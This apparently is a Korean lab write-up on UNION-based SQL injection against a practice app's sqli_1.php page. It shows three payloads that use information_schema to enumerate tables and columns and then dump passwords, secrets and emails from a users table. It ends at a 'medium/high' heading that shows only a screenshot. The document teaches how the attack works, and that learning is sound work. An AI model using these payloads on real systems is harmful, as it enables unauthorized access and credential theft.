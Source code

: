 information_schema 에는 여러가지 정보가 저장되어 있는데 그 중, 테이블의 이름, 칼럼명 등을 이용하면 계정정보, 비밀번호, 메일 등의 정보를 알아낼 수 있다.![WindowsTerminal_GDaud6c5L6](https://user-images.githubusercontent.com/79683414/134791408-e4040100-10f9-4992-ab33-d4807b0892ae.png)

> __Information_schema table reference__
>
> https://dev.mysql.com/doc/refman/8.0/en/information-schema-table-reference.html

<br>

<br>

information_schema.tables 에는 모든 테이블들의 이름이 저장된 "table_name" 칼럼이 있다.

`0' UNION SELECT 1,table_name,3,4,5,6,7 FROM information_schema.tables#`

![chrome_lXKA7Ckbwx](https://user-images.githubusercontent.com/79683414/134791485-70dca5d0-cc50-4276-870d-1aad9827c010.png)

<br>

<br>

이렇게 모든 테이블의 이름이 출력되는데, 계정 정보가 저장되어 있는 user 테이블을 확인해 보자.

information_schema.columns 에는 모든 테이블의 column 명이 저장된 column_name 칼럼이 있다.

`0' UNION SELECT 1,column_name,3,4,5,6,7 FROM information_schema.columns WHERE table_name='users'#`

![chrome_qDiDoal6g5](https://user-images.githubusercontent.com/79683414/134791580-d317428b-118e-4510-a1c1-b704820f05c5.png)



<br>

<br>

이렇게 user 테이블의 칼럼 정보를 획득했다.

다음은 원하는 정보를 출력해보자.

`0' UNION SELECT 1,concat(id,login),password,secret,email,activation_code,7 FROM users #`

![chrome_3PES9myt7j](https://user-images.githubusercontent.com/79683414/134791632-aa999466-cb17-43a4-934a-a7cab1666d98.png)

<br>

<br>

UNION 과 Information_schema 를 적절히 활용하면 원하는 정보를 획득 할 수 있다.

<br>

<br>

## medium/high

_sqli_1.php_

![Code_4gewNYMxPp](https://user-images.githubusercontent.com/79683414/135019163-81a73b95-4673-4cd6-808e-368cff48e36f.png)

<br>
